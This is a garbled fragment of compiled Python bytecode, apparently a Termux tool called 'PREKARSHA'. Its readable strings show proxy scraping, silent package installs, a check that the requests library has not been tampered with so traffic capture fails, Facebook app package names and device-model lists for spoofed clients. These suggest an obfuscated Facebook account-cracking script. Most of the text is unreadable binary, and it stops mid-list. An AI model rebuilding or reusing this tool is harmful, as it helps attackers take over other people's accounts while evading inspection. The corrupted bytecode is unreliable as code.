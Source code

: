 0\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00z\x00\x00\x00Z\x8b\x90\x01du\xa0\x87\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e\x8b\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00Z\x8c\x90\x01dv\x84\x00Z \x90\x01dw\x84\x00Z\x8d\x90\x01dx\x84\x00Z\x8e\x90\x01dy\x84\x00Z\x8f\x90\x01dz\x84\x00Z\x90\x90\x01d{\x84\x00Z\x91\x90\x01d|\x84\x00Z\x92\x90\x01d}\x84\x00Z\x93\x90\x01d~\x84\x00Z\x93\x90\x01d\x7f\x84\x00Z\x94\x90\x01d\x80\x84\x00Z\x95\x90\x01d\x81\x84\x00Z\x96\x90\x01d\x82\x84\x00Z\x97\x90\x01d\x83Z\x98\x90\x01d\x84\x84\x00Z\x99\x90\x01d\x85\x84\x00Z\x9a\x90\x01d\x86\x84\x00Z\x9b\x90\x01d\x87\x84\x00Z\x9c\x90\x01d\x88\x84\x00Z\x9d\x90\x01d\x89\x84\x00Z\x9e\x90\x01d\x8a\x84\x00Z\x9f\x90\x01d\x8b\x84\x00Z\xa0\x90\x01d\x8c\x84\x00Z\xa1\x90\x01d\x8d\x84\x00Z\xa2\x90\x01d\x8e\x84\x00Z\xa3\x90\x01d\x8f\x84\x00Z\xa4\x02\x00e\xa4\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00a@g\x00aAg\x00aBg\x00ZKg\x00Z\xa5g\x00Z\xa6\x90\x01d\x90\x84\x00Z\xa7\x90\x01d\x91\x84\x00Z\xa8\x90\x01d\x92\x84\x00Z\xa9\x02\x00e\x8e\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00(\x94\x01\x00\x00\xe9\x00\x00\x00\x00Nz\t git pull)\x01\xda\rBeautifulSoup)\x01\xda\x04date)\x01\xda\x08datetime)\x01\xda\x05sleep)\x01\xda\x06system)\x01\xda\rMIMEMultipart)\x01\xda\x08MIMEBase)\x01\xda\x08encoders)\x01\xda\x04pathc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00\xf3\xbe\x00\x00\x00\x97\x00\t\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00}\x00d\x02|\x00v\x00r\x1ft\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00t\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00t\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00#\x00\x01\x00t\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00Y\x00d\x00S\x00x\x03Y\x00w\x01)\x04Nz\x07/sdcard\xda\x07Androidu>\x00\x00\x00    \x1b[41m\x1b[1;32m Oh Man Method capture is On Off it \xf0\x9f\x98\x85 \x1b[0m )\x04\xda\x02os\xda\x07listdir\xda\x05print\xda\x04exit)\x01\xda\x04datas\x01\x00\x00\x00 \xfa\x01 \xda\x03clrr\x14\x00\x00\x00\x14\x00\x00\x00sd\x00\x00\x00\x80\x00\xf0\x02\x05\x05\x12\xdd\x0f\x11\x8cz\x98)\xd1\x0f$\xd4\x0f$\x88\x04\xd8\x0b\x14\x98\x04\xd0\x0b\x1c\xd0\x0b\x1c\xdd\x0c\x11\xd0\x12[\xd1\x0c\\\xd4\x0c\\\xd0\x0c\\\xd5]a\xd1]c\xd4]c\xd0]c\xd0]c\xd0]c\xdd\r\x11\x89V\x8cV\x88V\x88V\x88V\xf8\xd8\x04\x11\x8d4\x896\x8c6\x886\x886\x886\x886\xf8\xf8\xf8s\x10\x00\x00\x00\x825A\t\x00\xb9\x0eA\t\x00\xc1\t\x10A\x1c\x03)\x01\xda\x03api\xda\x01rr\x10\x00\x00\x00z\x10sys.stdout.write)\x01\xda\x08sessionszF/data/data/com.termux/files/usr/lib/python3.11/site-packages/requests/z\tmodels.pyu@\x00\x00\x00
\x1b[41m\x1b[1;32m Oh Man Method capture is On Off it \xf0\x9f\x98\x85 \x1b[0mz\x0bsessions.pyz\x07auth.py)\x01\xda\x12ThreadPoolExecutor)\x01\xda\x01*)\x01\xda\x0fConnectionErrorz9pip install mechanize requests futures bs4==2 > /dev/nullz\x0fpip install bs4z\x05%H:%M\xfa\x01/zwhttps://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=allz\t.prox.txt\xda\x01w\xda\x00\xda\x05clearz\x13/sdcard/....srx.txtr\x13\x00\x00\x00z\x0ftouch .prox.txtz)Allow Termux Permissions ! And Run Again z\x11/sdcard/PREKARSHAz\x0f\x1b]2;/PREKARSHA\x07\xda\x0564bitz2\x1b[1;91m[\x1b[1;92m\x1a\x1b[1;91m] \x1b[1;92mYOU ARE 64BIT USERz:\x1b[1;91m[\x1b[1;92m\x1a\x1b[1;91m] \x1b[1;92mTHANKS FOR USING MY SCRIPT\xda\x0532bitz2\x1b[1;91m[\x1b[1;92m\x1a\x1b[1;91m] \x1b[1;92mYOU ARE 32BIT USER\xfa\x07\x1b[1;97mz\x0b\x1b[38;5;196mz\x07\x1b[1;33mz\n\x1b[38;5;46mz\t\x1b[38;5;8mz\n\x1b[38;5;48mz\n\x1b[38;5;47mz\n\x1b[38;5;49mz\n\x1b[38;5;50mz\x07\x1b[1;34mz\n\x1b[38;5;14mz\x0b\x1b[38;5;123mz\x0b\x1b[38;5;122mz\n\x1b[38;5;86mz\x0b\x1b[38;5;121mz\x07\x1b[1;96mz\x0b\x1b[38;5;205mz\x07\x1b[1;92mz\x07\x1b[1;91mz\x07\x1b[1;93mz\x07\x1b[1;98m\xfa\x17com.facebook.adsmanager\xfa\x11com.facebook.lite\xfa\x11com.facebook.orca\xfa\x13com.facebook.katana\xfa\x12com.facebook.mlite(}\x01\x00\x00\xfa\x07GT-1015\xfa\x07GT-1020\xfa\x07GT-1030\xfa\x07GT-1035\xfa\x07GT-1040\xfa\x07GT-1045\xfa\x07GT-1050\xfa\x07GT-1240\xfa\x07GT-1440\xfa\x07GT-1450\xfa\x08GT-18190\xfa\x08GT-18262\xfa\tGT-19060I\xfa\x08GT-19082\xfa\x08GT-19083\xfa\x08GT-19105\xfa\x08GT-19152\xfa\x08GT-19192\xfa\x08GT-19300\xfa\x08GT-19505\xfa\x07GT-2000\xfa\x08GT-20000\xfa\x07GT-200s\xfa\x07GT-3000\xfa\tGT-414XOP\xfa\x07GT-6918\xfa\x07GT-7010\xfa\x07GT-7020\xfa\x07GT-7030\xfa\x07GT-7040\xfa\x07GT-7050\xfa\x07GT-7100\xfa\x07GT-7105\xfa\x07GT-7110\xfa\x07GT-7205\xfa\x07GT-7210\xfa\x08GT-7240R\xfa\x07GT-7245\xfa\x07GT-7303\xfa\x07GT-7310\xfa\x07GT-7320\xfa\x07GT-7325\xfa\x07GT-7326\xfa\x07GT-7340\xfa\x07GT-7405z\x12GT-7550